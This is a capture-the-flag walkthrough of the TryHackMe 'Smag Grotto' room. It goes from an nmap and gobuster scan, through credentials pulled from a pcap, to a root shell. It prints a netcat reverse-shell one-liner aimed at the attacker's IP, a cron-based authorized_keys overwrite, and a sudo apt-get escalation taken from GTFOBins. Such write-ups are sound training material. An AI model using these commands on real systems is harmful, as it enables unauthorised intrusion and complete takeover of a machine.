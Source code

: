 # Smag Grotto  
![alt text](https://tryhackme-images.s3.amazonaws.com/room-icons/e98b431f4e36498ca81cec12472c3231.jpeg)
TryHackMe Easy [Room](https://tryhackme.com/room/smaggrotto)

## Nmap Scan
We will discover port 22 and 80 are open.   
```bash
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp    open     http           syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```

## Web Enum
- Gobuster 
By running gobuster we will find `/mail` directory
    ```bash
    =====================================================
    Gobuster v2.0.1              OJ Reeves (@TheColonial)
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://smag.thm/
    [+] Threads      : 10
    [+] Wordlist     : /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307,403
    [+] Timeout      : 10s
    =====================================================
    2020/07/30 10:18:48 Starting gobuster
    =====================================================
    /mail (Status: 301)
    ```
Going to `/mail` will give us access to a conversation that includes a `.pcap` file.   
- The page
![alt text](https://i.imgur.com/Hf7abh7.png)   

## Wireshark
Taking a good look at the traffic, we can find an HTTP Post request to development.smag.thm/login.php. In the packet, we can see the username and pass in clear text.   
![alt text](https://i.imgur.com/mysFlTm.png)   
with the credential, we can go to `development.smag.thm` and try to get access to `/admin.php`.   


## Getting In
Add development.smag.thm to your `/etc/hosts` and access it through browser.   
- /etc/hosts
    ```bash
    127.0.0.1	localhost
    127.0.1.1	reza-HP-Spectre
    172.16.122.129	hekerendonesa
    10.10.228.117	smag.thm	development.smag.thm
    10.10.70.17	windcorp.thm	fire.windcorp.thm
    172.16.122.130	nugroho-server
    ```
- Acessing `development.smag.thm`   
![alt text](https://i.imgur.com/2rWGPce.png)   
log in with credential we get from the `.pcap` file and we will be redirected to `admin.php`   
![alt text](https://i.imgur.com/3lUPoZp.png)   
Here we have a web shell that will not print out the output of the command, so we can just execute a reverse shell command   
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f`   
And we will have access to the machine as `www-data`   
![alt text](https://i.imgur.com/QDnuKv9.png)

## Getting Access to Jake
- Enum
I tried to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find Priv Esc vector and found that there is an interesting cronjob.   
    ```bash
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    *  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys <--- We can abuse this
    ```
from that, we know that we can change the content of `/opt/.backups/jake_id_rsa.pub.backup` from jake's public key to our public key.   
After changing that, we can access jake's account with no password.   
![alt text](https://i.imgur.com/WgpnqsN.png)   

## Getting to Root
From the moment i get access to user `jake`, the first thing i tried is to check jake's sudo cprivilege with the command `sudo -l`.  
And here's what i got 
```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
So just go to GTFOBins and find `apt-get`   
![alt text](https://i.imgur.com/qd1AJlB.png)   
Just run `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh` and you will get root shell.   
![alt text](https://i.imgur.com/4dXK1YU.png)

# HAPPY HACKING!!!
